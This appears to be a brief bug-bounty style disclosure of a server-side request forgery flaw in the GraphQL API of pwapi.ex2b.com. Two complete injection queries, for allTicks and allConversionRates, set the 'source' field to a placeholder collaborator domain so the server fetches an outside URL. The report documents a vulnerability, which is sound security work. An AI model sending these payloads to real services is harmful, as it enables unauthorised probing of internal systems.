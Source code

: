 ### SSRF in graphQL query (pwapi.ex2b.com)

1. Attacker injected the payload on graphQL source

```
query { allTicks(symbol:"TSLA", source:"https://[COLLABORATOR_DOMAIN]/") {   symbol   server   source   ask   time   bid   } }
```

The query allConversionRates was vulnerable to SSRF attack as well.

```
query { allConversionRates(server:"test", ticks:true, source:"https://[COLLABORATOR_DOMAIN]/", from:"USD", to:"EUR", ts:1334) { ticks { ask { symbol } } multiplier error from to }}
```
